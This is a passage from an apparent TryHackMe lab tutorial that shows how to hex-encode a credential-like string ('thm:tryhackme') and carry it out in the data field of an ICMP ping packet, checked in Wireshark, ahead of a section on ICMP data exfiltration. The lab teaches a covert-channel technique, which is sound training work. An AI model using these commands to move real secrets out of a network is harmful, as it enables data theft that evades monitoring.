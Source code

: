```shell
root@AttackBox$ echo "thm:tryhackme" | xxd -p 
74686d3a7472796861636b6d650a
            
```

We used the xxd command to convert our string to Hex, and then we can use the ping command with the Hex value we got from converting the thm:tryhackme.

- **Send Hex using the ping command.**

```shell
root@AttackBox$ ping 10.10.211.34 -c 1 -p 74686d3a7472796861636b6d650a
            
```

We sent one ICMP packet using the ping command with thm:tryhackme Data. Let's look at the Data section for this packet in the Wireshark.

![Checking Data Field in Wireshark](./assets/6a086470f770c67c0a07f9572088e5e1.png)

Excellent! We have successfully filled the ICMP's Data section with our data and manually sent it over the network using the ping command.

### ICMP Data Exfiltration
